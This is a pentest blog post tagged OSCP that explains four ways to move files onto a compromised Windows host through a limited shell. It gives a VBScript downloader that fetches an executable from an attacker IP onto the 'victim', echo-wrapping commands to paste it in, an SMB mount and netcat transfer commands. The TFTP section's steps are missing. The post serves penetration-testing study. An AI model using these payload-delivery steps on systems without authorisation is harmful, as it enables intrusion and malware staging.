 ```yaml
---
layout: post
title: "4 Ways to Transfer Files With a Limited Shell"
date: 2017-04-22 08:42:48
image: '/assets/img/'
description: How I transfer files to a windows 
tags: oscp HowTo
categories: OSCP
twitter_text: Transfering Files With a Limited Shell
---
```


Commonly during pentests I might be stuck on getting a file over to a system with only a limited shell. To be honest, this problem has mostly occurred to me on Windows so the solutions below will all work on Windows.

# Echo One Line at a Time

The first method is to prefix the “echo” command to the beginning of each line and redirect the output to a file. You would then be able to simply paste the script into the limited shell and your file will be transferred. This method would really only be useful to transfer ASCII only files. However, you would be able to transfer a vbscript of PowerShell file to the victim and then use that to download the actual file.

For example, the following script:

```VB.net
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://10.0.0.100/file.exe", False
xHttp.Send
with bStrm
    .type = 1 '
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\admin\Desktop\file.exe", 2 '
end with
```

Would get “echo” prefixed and “>> down.vbs” appended using the following commands:

```bash
sed -i -e 's/$/echo /' down.vbs
sed -i -e 's/$/ \>\> down.vbs/' down.vbs
```

Make sure there are no empty spaces or you will get “ECHO is on.” added into your output. All that is left is to paste your script into your shell and viola! You have transferred a file.

Another option to transfer a non-ascii file is to encode it, transfer it using the echo method, and decode it on the other side but I prefer loading a downloader.

You can also use this method if you have limited RCE through a web application and use Burp’s intruder to run the commands. If you decide to go down this route, make sure that you throttle intruder so that the “echo” commands do not run out of order.

# TFTP

Another other option is to start up a TFTP server and use windows native TFTP client to connect to your server. Note that only Windows XP had tftp enabled by default. Windows Vista to Windows 10 all need to be enabled.
On the server
Set up the folder:
Start the server:
Move your file:
On the Client
Download the file:

# SMB Mount

The next option would be to set up an SMB share on a server (Could be on your kali box or another windows server in the network that has already been compromised). You can mount the SMB share to the Windows victim using the following command:

```bat
net use Z: \\host\share /PERSISTENT:YES
```

# Netcat

This one is the classic use of the nc command. Obviously, this would only work if you already have nc or ncat installed on the windows host, but hey, maybe you got lucky. 
On the host you are trying to transfer to run:

```bash
nc –l –p 3000 > file_name
```
On the host you are trying to transfer from run:

```bash
nc ipOrHostname 3000 < file_name
```
